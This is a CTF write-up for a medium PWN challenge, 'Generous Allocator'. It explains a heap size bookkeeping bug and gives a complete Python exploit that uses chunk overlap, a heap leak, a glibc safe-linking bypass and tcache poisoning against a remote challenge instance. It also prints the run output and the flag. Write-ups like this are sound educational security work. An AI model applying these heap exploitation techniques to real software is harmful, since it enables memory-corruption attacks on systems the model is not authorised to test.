


# Generous Allocator - upCTF PWN Writeup

**Challenge Name:** Generous Allocator  
**Category:** PWN  
**Difficulty:** Medium  
**Flag:** `upCTF{h34d3r_1nclud3d_by_m4ll0c-GmhN1UcSf1af19f9}`

---

## Description

> A junior developer built this heap manager, proud of their "thorough understanding" of glibc internals. Maybe they should have read the man page more carefully.

I was given the binary `overlap` along with the matching `libc.so.6` and `ld-linux-x86-64.so.2`, plus a remote instance.

At first glance this looked like a normal menu-based heap challenge, but the name already hinted at what I should be looking for: **chunk overlap**.

---

## Files

- `overlap`
- `libc.so.6`
- `ld-linux-x86-64.so.2`

Remote instance used during the solve:

```bash
nc 46.225.117.62 30020
```

---

## Initial Recon

I started with the usual quick triage:

```bash
file overlap
sha256sum overlap
readelf -h overlap
readelf -s overlap | egrep 'read_flag|manage_allocation|read_operation|write_operation|menu|main'
strings -a overlap | egrep 'flag|allocate|read|write|delete|quit|menu'
objdump -d -Mintel overlap > overlap.asm
```


The important parts were:

- 64-bit ELF
- PIE enabled
- dynamically linked
- not stripped
- bundled libc/loader were provided, so I did not need to guess the remote libc

Useful symbols were still present:

- `read_flag`
- `manage_allocation`
- `read_operation`
- `write_operation`
- `menu_loop`

That already made the challenge much easier to reason about.

---

## Program Behavior

The binary exposes a simple heap menu:

```text
1. malloc
2. free
3. read
4. write
5. quit
```

There was also a hidden option in `menu_loop`: pressing `f` called `read_flag()`.

That function was very important:

```c
void read_flag() {
    FILE *fp = fopen("flag.txt", "r");
    char *buf = malloc(0x2b1);
    fread(buf, 1, 0x2b0, fp);
    buf[nread] = '\0';
    fclose(fp);
}
```

So the program **did read the flag into the heap**, but it never printed it directly.

That told me the actual goal was not code execution. The real goal was to make one of my controlled pointers point to that heap buffer and then use the normal `read` menu option to print it.

---

## Finding the Bug

The core bug was in the allocation bookkeeping.

Inside `manage_allocation()`, the program stored the requested size in a side table, but it did it wrong:

```c
ptr_size_table[idx] = requested_size + 0x10;
```

Then `write_operation()` used that stored value as the maximum number of bytes it would write into the chunk.

That means if I asked for a chunk of size `0x18`, the program allowed me to write **0x28 bytes** into it.

That extra `0x10` is exactly the size of the glibc chunk header.

So instead of being limited to the user data, I could write:

- the whole chunk payload
- the next chunk's `prev_size`
- the next chunk's `size`

That was the entire bug.

So the challenge title made perfect sense: I could use one chunk to rewrite the next chunk header and create a controlled overlap.

---

## Why the Bug Works

On 64-bit glibc, each heap chunk has a `0x10` byte header:

```text
prev_size | size
```

If I allocate `malloc(0x18)`, the actual chunk size on the heap becomes `0x30`.

The writable area the program *should* allow is just my user data, but because it stores `size + 0x10`, it lets me walk right into the next header.

So if I place two small chunks next to each other like this:

```text
[A][B]
```

then writing to `A` lets me overwrite `B.size`.

Once I can forge `B.size`, I can free `B`, reallocate it at a larger logical size, and end up with a chunk that overlaps future chunks.

---

## Vulnerability Summary

I used the bug for three things:

1. **Forge a chunk size** so a freed chunk would be recycled as a much larger chunk
2. **Overlap a freed tcache chunk** to leak its safe-linked forward pointer
3. **Poison that same tcache entry** so `malloc()` returned a pointer to the hidden flag buffer

So the final exploit path was:

- chunk header overwrite
- chunk overlap
- heap leak
- safe-link bypass using leaked heap address
- tcache poisoning
- allocate pointer to flag buffer
- print flag

---

## Heap Layout I Used

I built the heap like this:

```text
A = malloc(0x18)
B = malloc(0x18)
C = malloc(0x2b1)
E = malloc(0x18)
H = malloc(0x18)
```

In memory that looked like this conceptually:

```text
[A small][B small][C large][E small][H small]
```

I used `A` to corrupt `B`.

Because `malloc(0x18)` lets me write `0x28` bytes, I wrote exactly enough to reach the next chunk header and changed `B.size` into `0x301`.

That made glibc treat `B` as a much larger free chunk.

---

## Step 1 - Forge `B.size`

I overflowed from `A` into the header of `B` with:

```python
b"A" * 0x18 + p64(0) + p64(0x301)
```

So I rewrote:

- `B.prev_size = 0`
- `B.size = 0x301`

Then I freed `B`.

After that, I requested a larger chunk that fit the forged size and got back an overlapping allocation.

---

## Step 2 - Turn `B` Into an Overlapping Chunk

After freeing the forged `B`, I allocated a chunk of size `0x2f0`.

That reused the same heap area, but now glibc believed it was a large chunk, so the new allocation covered the old `B` region and extended forward over `C` and beyond.

I called this new overlapping chunk `D`.

Now I had a live chunk that could read and write across the memory that belonged to `C`.

That was the main primitive I needed.

---

## Step 3 - Leak a Heap Address

The challenge used glibc 2.35, so tcache forward pointers were protected with **safe-linking**.

That meant I could not just poison a tcache `fd` blindly. I first needed a heap leak.

The program's `read_operation()` was:

```c
puts(ptr_table[idx]);
```

So if I could make a freed chunk's metadata appear inside a readable overlapping region, I could print it.

I freed `C`, which put it into the `0x2c0` tcache bin.

Then I used overlapping chunk `D` to read through `C`'s user area. Since `C` was now freed, its first eight bytes contained the safe-linked `fd` value.

From that leak I reconstructed the exact heap address of `C`.

The relation I used was:

```python
c_addr = (leak << 12) | 0x2e0
```

And during the successful remote run I got:

```text
leak raw=dd84db0806
c_addr=0x608db84dd2e0
```

At that point I had the heap leak I needed.

---

## Step 4 - Reclaim `C`

After leaking from the freed `C`, I restored its header through the overlapping chunk and allocated the same size again.

That gave me `C` back as a valid live chunk and emptied the `0x2c0` tcache bin.

I needed that bin empty before triggering the hidden flag allocation, otherwise the program might recycle the wrong chunk instead of taking memory from the top chunk.

---

## Step 5 - Trigger the Hidden Flag Allocation

Next I sent the hidden menu option:

```text
f
```

That called `read_flag()`.

The interesting detail here was that `fopen()` internally allocated a `FILE` structure on the heap before the program allocated the actual `0x2b1` flag buffer.

With the heap layout I forced, the final flag buffer landed at a stable offset from `C`:

```python
flag_addr = c_addr + 0x500
```

From the successful remote solve:

```text
flag_addr=0x608db84dd7e0
```

So now I knew the exact heap address where the flag string lived.

---

## Step 6 - Tcache Poisoning

Now that I had:

- the address of `C`
- the address of the live flag buffer

I could poison the `0x2c0` tcache list.

I freed `C` again.

Then, through overlapping chunk `D`, I overwrote the freed `C` chunk's forward pointer with the safe-linked encoding of `flag_addr`:

```python
enc = flag_addr ^ (c_addr >> 12)
```

The only annoying part was that the program's write routine stops on newline, so I had to retry if the encoded pointer bytes contained `0x0a`.

After poisoning:

- the first `malloc(0x2b1)` returned the real `C`
- the second `malloc(0x2b1)` returned a pointer into the flag buffer

That was the win.

---

## Step 7 - Read the Flag

Once I got an allocation that aliased the hidden flag buffer, I just used the normal menu read operation on that chunk.

Since `read_operation()` calls `puts()`, it printed the buffer directly.

That produced the flag:

```text
upCTF{h34d3r_1nclud3d_by_m4ll0c-GmhN1UcSf1af19f9}
```

---

## Exploit Script

This is the final exploit I used in pwntools form.

```python
#!/usr/bin/env python3
import os, sys, time, re, socket, select, struct, subprocess

HOST = os.environ.get('HOST', '46.225.117.62')
PORT = int(os.environ.get('PORT', '30024'))
BIN  = os.environ.get('BIN', './overlap')
LIBC = os.environ.get('LIBC', './libc.so.6')
LD   = os.environ.get('LD', './ld-linux-x86-64.so.2')
LOCAL = os.environ.get('LOCAL', '0') == '1'
GDB_WAIT = os.environ.get('GDB', '0') == '1'   # local only: pause for manual gdb attach
RETRIES = int(os.environ.get('RETRIES', '30'))

# Heap/layout constants for this binary + supplied glibc 2.35
C_USER_LOW12 = 0x2e0
FLAG_DELTA_FROM_C = 0x500   # C -> E -> H -> fopen FILE chunk -> flag buffer
FAKE_B_SIZE = 0x301         # B overlaps C+E, next real chunk is H
REQ_D = 0x2f1               # request that maps to fake chunk size 0x300
REQ_C = 0x2b1               # request that maps to chunk size 0x2c0
BAD_BYTES = {0x0a}          # write() stops on newline

class Tube:
    def __init__(self, sock=None, proc=None):
        self.sock = sock
        self.proc = proc
        self.buf = b''
        if proc is not None:
            os.set_blocking(proc.stdout.fileno(), False)
        if sock is not None:
            sock.setblocking(False)

    @classmethod
    def remote(cls, host, port, timeout=4.0):
        s = socket.create_connection((host, port), timeout=timeout)
        return cls(sock=s)

    @classmethod
    def local(cls, bin_path, libc_path, ld_path):
        env = {'PATH': os.environ.get('PATH', '')}
        proc = subprocess.Popen([ld_path, '--library-path', os.path.dirname(libc_path) or '.', bin_path],
                                stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.STDOUT,
                                env=env)
        if GDB_WAIT:
            print(f'[+] PID = {proc.pid} (attach gdb now, then press Enter)')
            input()
        return cls(proc=proc)

    def close(self):
        try:
            if self.sock is not None:
                self.sock.close()
        except Exception:
            pass
        try:
            if self.proc is not None:
                self.proc.kill()
        except Exception:
            pass

    def _read_some(self, timeout):
        if self.sock is not None:
            r, _, _ = select.select([self.sock], [], [], timeout)
            if not r:
                return False
            try:
                c = self.sock.recv(4096)
            except BlockingIOError:
                return False
        else:
            r, _, _ = select.select([self.proc.stdout], [], [], timeout)
            if not r:
                return False
            try:
                c = os.read(self.proc.stdout.fileno(), 4096)
            except BlockingIOError:
                return False
        if not c:
            return False
        self.buf += c
        return True

    def recvuntil(self, delim, timeout=3.0):
        end = time.time() + timeout
        while delim not in self.buf and time.time() < end:
            self._read_some(max(0.0, end - time.time()))
        if delim in self.buf:
            i = self.buf.index(delim) + len(delim)
            out, self.buf = self.buf[:i], self.buf[i:]
            return out
        out, self.buf = self.buf, b''
        return out

    def recv(self, timeout=0.15):
        end = time.time() + timeout
        while time.time() < end:
            if not self._read_some(max(0.0, end - time.time())):
                break
        out, self.buf = self.buf, b''
        return out

    def send(self, data):
        if self.sock is not None:
            self.sock.sendall(data)
        else:
            self.proc.stdin.write(data)
            self.proc.stdin.flush()

    def sendline(self, data=b''):
        self.send(data + b'\n')


def wait_menu(io):
    io.recvuntil(b'Enter your option: ', timeout=4)

def menu_malloc(io, size):
    wait_menu(io)
    io.sendline(b'1')
    io.recvuntil(b'size: ')
    io.sendline(str(size).encode())
    io.recv(0.05)

def menu_free(io, idx):
    wait_menu(io)
    io.sendline(b'2')
    io.recvuntil(b'chunk index (0-9): ')
    io.sendline(str(idx).encode())
    io.recv(0.05)

def menu_write(io, idx, data):
    wait_menu(io)
    io.sendline(b'4')
    io.recvuntil(b'chunk index (0-9): ')
    io.sendline(str(idx).encode())
    io.recvuntil(b'Enter your text:\n')
    io.send(data + b'\n')
    io.recv(0.05)

def menu_read(io, idx):
    wait_menu(io)
    io.sendline(b'3')
    io.recvuntil(b'chunk index (0-9): ')
    io.sendline(str(idx).encode())
    return io.recvuntil(b'Enter your option: ', timeout=4)

def menu_flag(io):
    wait_menu(io)
    io.sendline(b'f')
    io.recv(0.05)


def exploit(io, verbose=True):
    # idx 0:A 1:B 2:C 3:E 4:H
    for s in [0x18, 0x18, REQ_C, 0x18, 0x18]:
        menu_malloc(io, s)

    # A overflow -> corrupt B.size to 0x300|PREV_INUSE so B covers C+E
    menu_write(io, 0, b'A' * 0x18 + struct.pack('<Q', FAKE_B_SIZE))
    menu_free(io, 1)
    menu_malloc(io, REQ_D)  # idx 5 = D, overlaps C and E

    # Leak heap: free C into tcache, then make D's preamble non-zero so puts reaches C->fd
    menu_free(io, 2)
    menu_write(io, 5, b'B' * 0x20)
    leak_out = menu_read(io, 5)
    marker = b'B' * 0x20
    pos = leak_out.find(marker)
    if pos < 0:
        raise RuntimeError(f'leak marker not found: {leak_out!r}')
    raw = leak_out[pos + 0x20:].split(b'\n')[0]
    leak = int.from_bytes(raw.ljust(8, b'\x00'), 'little')
    c_addr = (leak << 12) | C_USER_LOW12
    flag_addr = c_addr + FLAG_DELTA_FROM_C
    encoded = flag_addr ^ (c_addr >> 12)
    enc_bytes = struct.pack('<Q', encoded)
    if verbose:
        print(f'[+] leak raw={raw.hex()} c_addr={hex(c_addr)} flag_addr={hex(flag_addr)} enc={enc_bytes.hex()}')

    if any(b in BAD_BYTES for b in enc_bytes):
        raise ValueError(f'encoded fd contains bad byte(s): {enc_bytes.hex()}')

    # Restore C header, reallocate C so 0x2c0 tcache is empty before hidden f
    menu_write(io, 5, b'C' * 0x10 + struct.pack('<Q', 0x20) + struct.pack('<Q', 0x2c1))
    menu_malloc(io, REQ_C)  # idx 6 = C again

    # Hidden feature: read flag into a heap chunk
    menu_flag(io)

    # Poison 0x2c0 tcache so 2nd malloc(0x2b1) returns the live flag buffer
    menu_free(io, 6)
    menu_write(io, 5, b'D' * 0x10 + struct.pack('<Q', 0x20) + struct.pack('<Q', 0x2c1) + enc_bytes)
    menu_malloc(io, REQ_C)  # idx 7 = real C chunk
    menu_malloc(io, REQ_C)  # idx 8 = alias to flag buffer

    out = menu_read(io, 8)
    m = re.search(rb'upCTF\{[^\n\r\x00]*\}', out)
    if not m:
        raise RuntimeError(f'flag not found in output: {out!r}')
    return m.group().decode()


def main():
    for i in range(1, RETRIES + 1):
        io = None
        try:
            if LOCAL:
                io = Tube.local(BIN, LIBC, LD)
            else:
                io = Tube.remote(HOST, PORT)
            print(f'[*] attempt {i}')
            flag = exploit(io)
            print(flag)
            return
        except ValueError as e:
            print(f'[-] retrying: {e}')
        finally:
            if io is not None:
                io.close()
    raise SystemExit('exhausted retries without a newline-safe encoded pointer / successful flag read')

if __name__ == '__main__':
    main()
```

---

## Running the Exploit

### Remote

```bash
HOST=46.225.117.62 PORT=30020 RETRIES=30 python3 generous_allocator_exploit.py
```


### Local

```bash
LOCAL=1 BIN=./overlap LIBC=./libc.so.6 LD=./ld-linux-x86-64.so.2 python3 generous_allocator_exploit.py
```

---

## Verified Remote Output

This was the successful remote run:

```text
[*] attempt 1
[+] leak raw=dd84db0806 c_addr=0x608db84dd2e0 flag_addr=0x608db84dd7e0 enc=3d5396b08b600000
upCTF{h34d3r_1nclud3d_by_m4ll0c-GmhN1UcSf1af19f9}
```

---

## Final Flag

```text
upCTF{h34d3r_1nclud3d_by_m4ll0c-GmhN1UcSf1af19f9}
```

---

## Closing Thoughts

I liked this challenge a lot because the bug was simple, but the path to the flag was not just "overwrite RIP and win". The interesting part was realizing that the hidden `read_flag()` function already did the hard work for me by placing the flag on the heap.

So instead of chasing shellcode or a full ROP chain, I only needed to:

- create overlap
- leak the heap
- bypass safe-linking
- redirect an allocation into the already-existing flag buffer

The challenge name was also a nice hint. The allocator was definitely a little too generous.
